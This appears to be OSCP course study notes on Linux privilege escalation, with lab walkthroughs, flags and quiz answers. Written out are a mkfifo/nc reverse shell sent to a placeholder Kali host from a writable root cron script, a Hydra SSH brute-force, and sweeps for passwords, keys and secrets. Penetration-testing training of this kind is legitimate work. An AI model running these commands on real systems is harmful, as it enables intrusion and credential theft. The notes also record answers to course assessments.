






# Module 18: Linux Privilege Escalation

## Tags
#LinuxPrivesc #PrivilegeEscalation #Module18 #OSCP #Linux #SUID #Capabilities #CronJob #KernelExploit #sudo #LinPEAS #GTFOBins #PathAbuse #RestrictedShell #ContainerEscape #LDPreload #SharedObject #PythonHijack #Logrotate #NFS #docker #lxd #CredentialHunting #wpconfig #BashHistory #SSHKeys #env #ss #lsof #dpkg #WorldWritable #admGroup #tomcat #busctl #PwnKit #CVE20214034 #DirtyPipe #CVE20220847 #HiveNightmare #OverlayFS #SkillsAssessment #FileTransfers #wget #curl #ncPipe #scp #uploadserver

Related: [[17. Windows Privilege Escalation|Windows Privilege Escalation]] | [[16. Password Attacks|Password Attacks]] | [[15. Antivirus Evasion|Antivirus Evasion]]

Companion resources: [[Linux Privilege Escalation]] | [[Linux Privilege Escalation (Decision Tree)]] | [[Privilege Escalation & Local Exploitation (Breakdowns)]]

---

## **Why This Module Matters**

Linux privilege escalation is unavoidable on OSCP. Almost every Linux box lands you as www-data, a low-priv user, or a service account first, and you need root before you can take the proof screenshot.

The key skill here is enumeration before exploitation: understand what's misconfigured on the box before reaching for a kernel CVE. Most priv-esc wins in the exam come from misconfigurations -- SUID binaries, writable cron jobs, sudo rules, world-writable paths, NFS no_root_squash, credential files -- not from kernel exploits. LinPEAS, manual checks, and GTFOBins are the actual exam-day toolkit. Kernel exploits (DirtyPipe CVE-2022-0847, PwnKit CVE-2021-4034) are the fallback when nothing structural lands.

The module also covers credential hunting (bash history, wp-config, SSH keys), restricted shell escapes, and container breakouts, all of which appear regularly in harder labs and the OSCP exam itself.

---

## 18.1 Enumerating Linux

### 18.1.1 Understanding Files and User Privileges on Linux

The fundamental Unix idea: everything is a file. Files, directories, devices, and network sockets all live in the filesystem and all follow the same permission model.

Every file has three permission categories, each with three rights:

| Category | Who it applies to |
|----------|-------------------|
| Owner (first `rwx`) | the user who owns the file |
| Group (second `rwx`) | members of the file's group |
| Others (third `rwx`) | everyone else |

Each `r`, `w`, `x` means something slightly different depending on whether the resource is a file or a directory:

| Permission | On a file | On a directory |
|------------|-----------|----------------|
| `r` (read) | read file contents | list directory contents |
| `w` (write) | modify file contents | create or delete files inside |
| `x` (execute) | run the file | `cd` into it; access its entries |

A dashed permission (`-`) means that right is not granted. The very first character in `ls -l` output is the type: `-` for a regular file, `d` for directory, `l` for symlink.

Example from the module:
```
-rw-r----- 1 root shadow 1751 May  2 09:31 /etc/shadow
```
Owner `root`: read + write. Group `shadow`: read only. Others: nothing.

> 📸 Screenshot: `ls -l /etc/shadow` output showing root:shadow ownership and rw-r----- permissions



#### Tags: #LinuxPermissions #FilePermissions #Module18

---

### 18.1.2 Manual Enumeration

A lot of Linux privesc is knowing what to look for and where. Run all of this when you first land a shell. Each command below includes what you are actually looking for, not just what it does.

**1. Who am I and what groups am I in?**
```bash
id
```
Shows uid, gid, and supplementary groups. Note anything interesting: `sudo`, `disk`, `lxd`, `docker`, `adm`. Any of those groups can be a privesc path.

**2. Who else is on the machine?**
```bash
cat /etc/passwd
```
Look for users with `/bin/bash` or `/bin/sh` (interactive shell accounts) vs `/usr/sbin/nologin` (service accounts that can not log in). The format is:
```
username : password_field : UID : GID : comment : home_dir : shell
```
Key fields:
- Password field `x` means the real hash is in `/etc/shadow`
- UID 0 = root; regular users start at 1000
- Non-root interactive users are potential lateral movement targets

**3. What machine is this?**
```bash
hostname
cat /etc/issue
cat /etc/os-release
uname -a
```
`uname -a` gives you the kernel version and architecture. Both are critical if you end up hunting for a kernel exploit. Write down the exact kernel string.

> 📸 Screenshot: `uname -a` output showing kernel version and x86_64 arch

**4. What processes are running?**
```bash
ps aux
```
`a` = all processes with or without TTY, `u` = user-readable format, `x` = include processes without a controlling terminal. Look for custom scripts or unusual binaries running as root that are not standard system services.

**5. What are the network interfaces and connections?**
```bash
ip a
routel
ss -anp
```
Two interfaces often means the machine bridges two networks, which is pivoting potential. In `ss -anp`, look for ports listening only on `127.0.0.1`. Those services are not reachable from outside but you can hit them locally, and a privileged local service expands your attack surface.

**6. What are the firewall rules?**
```bash
cat /etc/iptables/rules.v4
```
The `iptables-persistent` package on Debian saves rules here with weak permissions by default. Non-standard rules allowing unusual ports are worth noting for later investigation.

**7. What cron jobs are running?**
```bash
ls -lah /etc/cron*
crontab -l
sudo crontab -l
grep "CRON" /var/log/syslog
```
`/var/log/syslog` CRON lines show the exact command running and from whose context. The pattern you want is `(root) CMD (...)`. When you find a root-owned cron job, immediately check the permissions on the script it calls.

**8. What software is installed?**
```bash
dpkg -l          # Debian / Ubuntu
rpm -qa          # Red Hat / CentOS
```
Confirms what services are actually running (web server, DB, etc.) and version numbers to check against CVEs.

**9. What files and directories can I write to?**
```bash
find / -writable -type d 2>/dev/null
```
`-writable` = current user has write access, `-type d` = directories only, `2>/dev/null` = discard permission errors so you only see actual results. Any writable directory outside your home folder is interesting, especially if it contains scripts executed by a higher-priv user.

**10. What disks and partitions exist?**
```bash
cat /etc/fstab
mount
lsblk
```
Unmounted partitions may contain data. Network shares might have looser permissions than the local filesystem.

**11. What kernel modules are loaded?**
```bash
lsmod
/sbin/modinfo <module_name>
```
Useful if you are hunting for a driver-level exploit. Match module names and versions against CVE databases.

**12. What SUID binaries exist?**
```bash
find / -perm -u=s -type f 2>/dev/null
```
SUID binaries run with the file owner's effective UID (usually root) regardless of who launches them. Anything non-standard here is suspicious. Cross-reference against GTFOBins immediately: https://gtfobins.github.io/

**13. What SGID binaries exist?**
```bash
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```
`-perm -6000` matches files with both SUID and SGID set. For SGID only: `-perm -g=s`. An SGID binary runs with the file's group GID rather than the launching user's GID. Check GTFOBins for anything non-standard.

**14. Hunt for credentials embedded in shell scripts:**
```bash
find / -name "*.sh" 2>/dev/null | xargs grep -il "password\|secret\|db_pass" 2>/dev/null
# Broad sweep across all script contents:
find / -name "*.sh" 2>/dev/null | xargs cat 2>/dev/null | grep -i "password\|secret"
```
Internal scripts frequently have hardcoded credentials. In lab environments, flags are sometimes embedded here too: `xargs cat | grep "HTB\|OS{"` catches them fast.

> 📸 Screenshot: SUID binary list output showing unusual or custom binary

> 🔁 **Similar to:** the Windows PrivEsc situational awareness checklist in [[17. Windows Privilege Escalation#17.1.2 Situational Awareness|17.1.2 Situational Awareness]]. Same idea: build a picture before choosing an attack path.

> 🔗 **GTFOBins:** [gtfobins.github.io](https://gtfobins.github.io/) -- search by binary name, filter by SUID, Sudo, or Capabilities

**Quiz answers (18.1.2):**
- Linux distribution codename on the lab VM: **buster** (`cat /etc/os-release` shows `VERSION_CODENAME=buster`)
- crontab parameter to list current user's cron jobs: **`-l`**
- The acronym for what allows a binary to run with root permissions even when launched by a low-priv user: **SUID** (Set User ID -- the quiz asks for the mechanism/bit name, not the resulting UID type; eUID is the underlying concept but SUID is the accepted answer)

**18.1.2 VM#1 -- COMPLETE**
- Non-standard SUID binary found: `/usr/bin/passwd_flag` (segfaults when run directly)
- Flag extracted via `strings /usr/bin/passwd_flag`: `OS{b6eb1b203002b9d722537f581d42567c}`
- Technique: `find / -perm -u=s -type f 2>/dev/null` to list SUID binaries, then `strings` to extract embedded flag

#### Tags: #ManualEnumeration #id #passwd #hostname #uname #ps #cron #dpkg #SUID #Module18

---

#### 18.1.2.1. Environment and System Basics

```bash
# OS and kernel version (both lines useful -- os-release for name, uname -a for kernel)
cat /etc/os-release
uname -a
cat /proc/version

# CPU architecture (relevant for compiled exploit selection)
lscpu | grep Architecture

# Mounted filesystems (check for unusual NFS mounts or writable data volumes)
df -h

# Environment variables (credentials, custom PATHs, API keys)
env
set | grep -i pass   # shell-specific variables too

# Installed packages with versions
dpkg -l
apt list --installed 2>/dev/null | tr "/" " " | cut -d" " -f1,3 | grep "^python3\.[0-9]"
rpm -qa   # RPM-based systems
```

#### 18.1.2.2. Script Hunting (Embedded Secrets)

Shell scripts left world-readable frequently contain hardcoded credentials for database connections, remote backups, or monitoring:

```bash
# Find all readable shell scripts and grep for interesting strings
find / -name "*.sh" 2>/dev/null | xargs grep -l "pass\|secret\|key\|token\|HTB\|flag" 2>/dev/null
cat /opt/scripts/backup.sh
```

> 🔍 **Worth remembering generally:** cron jobs that run as root nearly always call external scripts, and those scripts often hardcode database passwords or SSH keys. Always read every cron-invoked script you can reach.

#### 18.1.2.3. Services and Listening Ports (LPE.2)

```bash
# Full process list
ps aux | grep root   # root-owned processes and service binaries

# Listening services (internal ports nmap didn't see from outside)
ss -lntp     # listening TCP + PID
ss -lnup     # listening UDP
netstat -tlnp 2>/dev/null   # fallback if ss unavailable

# Environment of running processes
strings /proc/<pid>/environ
cat /proc/<pid>/cmdline | tr '\0' ' '
```

> 🔍 **Worth remembering generally:** services bound to `127.0.0.1` don't appear in your initial nmap scan. `ss -lntp` reveals internal MySQL, Redis, and HTTP APIs that may have weak auth and serve as the pivot point for privilege escalation.

**Lab Q&A (LPE.1-2):**

| Q | Answer |
|---|---|
| Flag in world-readable .sh script | **HTB{1nt3rn4l_5cr1p7_l34k}** |
| Python 3.x minor version installed | **3.11** |

#### Tags: #ManualEnumeration #id #passwd #hostname #uname #ps #cron #dpkg #SUID #env #lscpu #ss #lsof #Module18

---

### 18.1.3 Automated Enumeration

Manual enumeration catches the unusual stuff; automated tools do the broad sweep quickly. Use both, manual first.

**unix-privesc-check** (pre-installed on Kali at `/usr/bin/unix-privesc-check`):
```bash
# Transfer to target, then:
./unix-privesc-check standard > output.txt
grep -i "WARNING" output.txt
```
`standard` mode is faster with fewer false positives. `detailed` mode also checks open file handles and parsed paths from scripts but is slow and noisy. The critical finding the module highlights: "WARNING: /etc/passwd is a critical config file. World write is set" -- that is directly exploitable (see 18.3.2).

**LinPEAS** (more comprehensive, actively maintained):
```bash
# Download from: https://github.com/carlospolop/PEASS-ng/releases
# Transfer to target, then:
chmod +x linpeas.sh
./linpeas.sh 2>/dev/null | tee output.txt
```
LinPEAS colour-codes output. Red/yellow = high confidence findings. Start with those.

**LinEnum:**
```bash
# Download from: https://github.com/rebootuser/LinEnum
chmod +x LinEnum.sh && ./LinEnum.sh
```

> 🔍 **Worth remembering generally:** automated tools miss things that require context -- like a cron script that is writable because of a non-obvious group ownership chain. Always run a manual pass first, then use tools to catch anything you missed.

> 🔁 **Similar to:** using winPEAS + PowerUp in [[17. Windows Privilege Escalation#17.1.5 Automated Enumeration|17.1.5 Automated Enumeration]]. Tools augment, not replace, manual work.

**18.1.3 VM#1 -- COMPLETE**
- Transferred `unix-privesc-check` from Kali via `scp /usr/bin/unix-privesc-check joe@<TARGET>:~/`
- Ran `./unix-privesc-check standard 2>/dev/null | grep -A 2 "WARNING"` -- two world-writable critical files found: `/etc/passwd` and `/etc/sudoers`
- Flag embedded as a comment in `/etc/sudoers`: `OS{3bc7a751241f4e88f5f18f7d2e67fcb2}`
- Bonus find: `joe ALL=(ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get` in sudoers -- foreshadows the 18.4.2 sudo abuse section

#### Tags: #AutomatedEnumeration #LinPEAS #LinEnum #unix-privesc-check #Module18

---

## 18.2 Exposed Confidential Information

### 18.2.1 Inspecting User Trails

Credentials left in plaintext are the quickest win. Check these before anything complex.

**Check environment variables:**
```bash
env
```
Admins sometimes store credentials in env vars for use by scripts that require authentication. Look for anything that looks like a password value.

**Check shell startup files (dotfiles):**
```bash
cat ~/.bashrc
cat ~/.bash_profile
cat ~/.bash_history
cat ~/.zshrc     # if the user runs zsh
```
Dotfiles (prepended with `.`) are hidden from basic `ls` but are readable. `.bashrc` runs every time a new shell is opened. The module example: `export SCRIPT_CREDENTIALS="lab"` sitting in plaintext in `.bashrc`. Check `.bash_history` for commands with passwords as arguments (e.g. `mysql -u root -pPassword123`).

> 📸 Screenshot: `cat .bashrc` output showing `export SCRIPT_CREDENTIALS="lab"` line

**Application config files:**

Web app configs are a reliable credential source, especially on shared hosting or DevOps machines:
```bash
# WordPress database password
cat /var/www/html/wp-config.php | grep "DB_PASSWORD"

# Generic config file sweep
find /var/www -name "*.conf" -o -name "*.config" -o -name "config.php" 2>/dev/null \
  | xargs grep -i "password\|passwd\|secret" 2>/dev/null

# .env files
find / -name ".env" 2>/dev/null | xargs grep -i "password\|secret\|key" 2>/dev/null
```
Database credentials are often reused for system accounts. Always try them against `su`, SSH, and `sudo -s`.

**Try the credential directly against root:**
```bash
su - root
```
Always worth trying immediately before doing anything more complex.

**Build a targeted wordlist from a partial credential (crunch):**
```bash
crunch 6 6 -t Lab%%% > wordlist
```
`-t Lab%%%` = pattern where `%` is a digit placeholder. Generates Lab000 through Lab999.

**Brute-force SSH with Hydra:**
```bash
hydra -l eve -P wordlist 192.168.50.214 -t 4 ssh -V
```
`-l` = single username, `-P` = wordlist, `-t 4` = 4 parallel threads (keep low for SSH to avoid account lockouts), `-V` = verbose output per attempt.

> 📸 Screenshot: Hydra output showing the successful `[22][ssh] host: ... login: eve password: Lab123` line

**Once on another account, check sudo rights:**
```bash
sudo -l
```
`(ALL : ALL) ALL` means full sudo access. From there: `sudo -i` or `sudo su -` for root.

> 🎬 **[ippsec.rocks: "hydra"](https://ippsec.rocks/?#hydra)** -- boxes using targeted brute-force with Hydra once a username is known
> 🎬 **[ippsec.rocks: "dotfile"](https://ippsec.rocks/?#dotfile)** -- boxes where credential hunting in .bashrc / .bash_history reveals a password

> 🔍 **Worth remembering generally:** a found credential with a recognisable pattern (prefix + variable suffix) is a signal to generate a targeted wordlist rather than throwing a generic rockyou at it. Crunch is ideal for this. The narrower the wordlist, the faster Hydra finishes.

> 🔁 **Similar to:** the PSReadline and credential hunting flow in [[17. Windows Privilege Escalation#17.1.4 Information Goldmine PowerShell|17.1.4 Information Goldmine PowerShell]]. Windows has transcript files and history; Linux has dotfiles and env vars. Same instinct, different paths.

> 🔗 **RevShells** (if you need a shell payload at any stage): [revshells.com](https://www.revshells.com)

**Quiz answer (18.2.1):**
- Command to list sudoer capabilities for a given user: **`sudo -l`**

**18.2.1 VM#2 -- COMPLETE**
- As joe: `env` revealed `SCRIPT_CREDENTIALS=lab` → pattern Lab+digits → `crunch 6 6 -t Lab%%% > wordlist.txt`
- `hydra -l eve -P wordlist.txt 192.168.236.214 -t 4 ssh -V` → `eve:Lab123` found at attempt 124
- SSH as eve → `sudo -l` → `(ALL : ALL) ALL` → `sudo -i` → root
- Flag in `/home/eve/.bashrc` as `export PASSWORD=OS{cc74dc4e61542e49c29c4ee8ae29bf22}`
- Key lesson: credential hunting requires chaining -- joe's env var gave the pattern, crunch + hydra cracked eve's password, eve's dotfile held the flag

#### Tags: #Dotfiles #CredentialHunting #hydra #crunch #sudo #Module18

---

#### 18.2.1.1. Application Config File Hunting

```bash
# WordPress config (most common PHP app -- DB credentials here)
cat /var/www/html/wp-config.php | grep "DB_"
# DB_NAME, DB_USER, DB_PASSWORD, DB_HOST

# Broad config sweeps for any application
find / -name "*.conf" -readable 2>/dev/null | xargs grep -il "password" 2>/dev/null
find / -name "*.php" -readable 2>/dev/null | xargs grep -il "password" 2>/dev/null
find / -name "settings.py" -readable 2>/dev/null | xargs grep -i "password\|secret\|SECRET_KEY" 2>/dev/null

# Backup config files (often contain plaintext creds from before encryption was added)
find / -name "*.bak" -readable 2>/dev/null
find /opt /etc /var -name "tomcat-users*" 2>/dev/null
find / -path "*/tomcat*" -name "*.bak" 2>/dev/null
```

> 🔍 **Worth remembering generally:** `.bak` files are often left behind after a sysadmin makes a change -- they contain the previous version of a config file which may include credentials that were removed from the live version.

#### 18.2.1.2. Shell History and SSH Keys

```bash
# All history files
cat ~/.bash_history
cat ~/.zsh_history
cat ~/.mysql_history
cat ~/.psql_history
cat ~/.python_history

# Check all users' histories (if readable)
find /home -name ".*history" -readable 2>/dev/null
find /root -name ".*history" -readable 2>/dev/null

# SSH private keys (anywhere readable)
find / -name "id_rsa" -o -name "id_ed25519" 2>/dev/null
find / -name "*.pem" -o -name "*.key" 2>/dev/null

# Authorized keys (shows which hosts this user can authenticate to)
cat ~/.ssh/authorized_keys
```

> 🔍 **Worth remembering generally:** command history frequently contains `mysql -u root -pSOMEPASS`, `scp user:password@host:file .`, and `curl -u admin:pass`. These are instant credential captures. Check history early.

**Lab Q&A (LPE.3):**

| Q | Answer |
|---|---|
| WordPress DB_PASSWORD in wp-config.php | **W0rdpr3ss_sekur1ty!** |

#### Tags: #Dotfiles #CredentialHunting #hydra #crunch #sudo #wpconfig #BashHistory #SSHKeys #tomcat #bakFiles #Module18

---

### 18.2.2 Inspecting Service Footprints

On Linux (unlike Windows), low-priv users can see the full command-line arguments of any running process, including root-owned ones. Processes sometimes pass credentials as arguments.

**Watch the process list for credentials:**
```bash
watch -n 1 "ps -aux | grep pass"
```
`watch` re-runs a command on a set interval. `-n 1` = every 1 second. The `grep pass` filters for processes with "pass" anywhere in the command string. Leave it running for a couple of minutes.

The module example catches: `sshpass -p 'Lab123' ssh -t eve@127.0.0.1`. A root-owned process, password in cleartext, visible to any local user.

> 📸 Screenshot: `watch` output showing the sshpass process with cleartext password argument

**Sniff loopback traffic with tcpdump (if you have sudo rights for it):**
```bash
sudo tcpdump -i lo -A | grep "pass"
```
`-i lo` = loopback interface (catches traffic between local services), `-A` = print packet content as ASCII. Useful when local daemons communicate over unencrypted protocols.

> 🔍 **Worth remembering generally:** `watch -n 1 "ps -aux | grep pass"` is a passive technique that costs nothing and occasionally hits gold in real environments. Run it early and let it sit in the background.

> 🎬 **[ippsec.rocks: "tcpdump"](https://ippsec.rocks/?#tcpdump)** -- boxes where credential sniffing on loopback or internal interfaces reveals a password

> 🔁 **Similar to:** Responder capturing Net-NTLMv2 hashes in [[16. Password Attacks|Module 16]]. Both are passive credential capture. Different protocol, same principle.

> ⚠️ **AppArmor note:** if `sudo tcpdump` is on the allowed list but the module's GTFOBins tcpdump technique throws a "Permission denied" error, check `/var/log/syslog` for `apparmor="DENIED"`. A tcpdump AppArmor profile blocks the exec trick even with sudo access. See 18.4.2 for more on AppArmor.

**Quiz answer (18.2.2):**
- Utility used to constantly inspect ps output: **`watch`**

**18.2.2 VM#1 -- COMPLETE**
- `watch -n 1 "ps -aux | grep pass"` showed no sshpass process on this VM -- credential was transmitted over loopback as network traffic instead
- `sudo -l` confirmed joe can run tcpdump
- `sudo tcpdump -i lo -A | grep "pass"` captured two credentials cycling on loopback: `user:root,pass:lab` and `user:flag,pass:OS{3ca97f75b16e0d92801f8fbebb395733}`
- Flag: `OS{3ca97f75b16e0d92801f8fbebb395733}`
- Key lesson: this section covers TWO techniques -- process watching AND tcpdump. Real VMs may only be vulnerable to one. Try both before giving up.

#### Tags: #ProcessHunting #watch #tcpdump #CredentialSniffing #Module18

---

## 18.3 Insecure File Permissions

### 18.3.1 Abusing Cron Jobs

Same pattern as Windows scheduled tasks: find a script that runs as root but is writable by you, overwrite it with a reverse shell.

**Find root-owned cron jobs via syslog:**
```bash
grep "CRON" /var/log/syslog
```
Look for `(root) CMD (...)` entries. Note the full path of the script and how frequently it runs. Timestamps will show you the interval.

**Check the script's permissions:**
```bash
ls -lah /path/to/script.sh
cat /path/to/script.sh
```
The dangerous permission string is `-rwxrwxrw-` or anything where group or others has write access. If you can write it, you own it.

> 📸 Screenshot: `ls -lah` on the cron script showing world-writable permissions (-rwxrwxrw-)

**Inject a reverse shell one-liner:**
```bash
cd /path/to/scripts/
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <KALI_IP> 1234 >/tmp/f" >> user_backups.sh
```
The first `echo >>` adds a blank line so the original script content still runs without errors before reaching your payload. The `mkfifo` one-liner creates a named pipe that connects stdin to an `nc` reverse connection.

**Start the listener on Kali:**
```bash
nc -lnvp 1234
```

**Wait up to one interval (often 1 minute) for the connection, then verify:**
```bash
id
whoami
```

> 📸 Screenshot: nc listener receiving root shell, `id` confirming uid=0(root)

> 🔁 **Similar to:** scheduled task binary replacement in [[17. Windows Privilege Escalation#17.3.1 Scheduled Tasks|17.3.1 Scheduled Tasks]]. On Windows you replace a binary; on Linux you modify the script directly if it is writable. Same core principle.



> 🔍 **Worth remembering generally:** the `/var/log/syslog` CRON entries tell you the exact script path and timing, more reliably than reading `/etc/cron*` directories which might not reflect all active jobs. On Debian/Kali containers without syslog, check `/var/log/cron.log` instead.

> 🔗 **RevShells** for alternative one-liners: [revshells.com](https://www.revshells.com)

